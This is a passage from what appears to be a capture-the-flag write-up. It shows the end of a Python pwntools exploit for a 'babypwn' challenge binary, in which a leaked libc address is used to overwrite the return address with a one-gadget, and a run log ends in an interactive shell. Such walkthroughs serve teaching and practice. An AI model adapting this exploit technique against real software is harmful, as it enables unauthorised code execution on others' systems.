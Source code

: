 ```
print "one gadget is:    " + hex(onegadget)

# Go through the initial portion of the program again, don't trigger format string bug
start("15935728", "-1")

# Go through the scanf bugs untill we reach the return address
for i in xrange(26):
    target.sendline('+')

# Overwrite the return address with the oneshot gadget
target.sendline(str((onegadget & 0xffffffff)))
target.sendline(str((onegadget >> 32 )))

# Go through the rest of the scanf calls
for i in xrange(227):
    target.sendline('+')

# Drop to an interactive shell
target.interactive()
```

and when we run it:
```
$ python exploit.py 
[+] Starting local process './babypwn': pid 96199
[*] '/home/guyinatuxedo/Desktop/libc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] running in new terminal: /usr/bin/gdb -q  "./babypwn" 96199 -x "/tmp/pwnthrpx4.gdb"
[+] Waiting for debugger: Done
Create a tressure box?

name:
 How many coins do you have?
puts address  is: 0x7f0f01195690
the libc base is: 0x7f0f01126000
one gadget is:    0x7f0f0116b216
Create a tressure box?

name:
 How many coins do you have?
[*] Switching to interactive mode

Tressure Box: 15935728 created!
$ ls
babypwn  core  exploit.py  leak.py  libc  peda-session-babypwn.txt
$ w
 14:20:39 up  1:19,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               13:02    1:18m 22.59s  0.16s /sbin/upstart --user
$ 
[*] Interrupted
[*] Stopped process './babypwn' (pid 96199)
```

Just like that, we popped a shell!

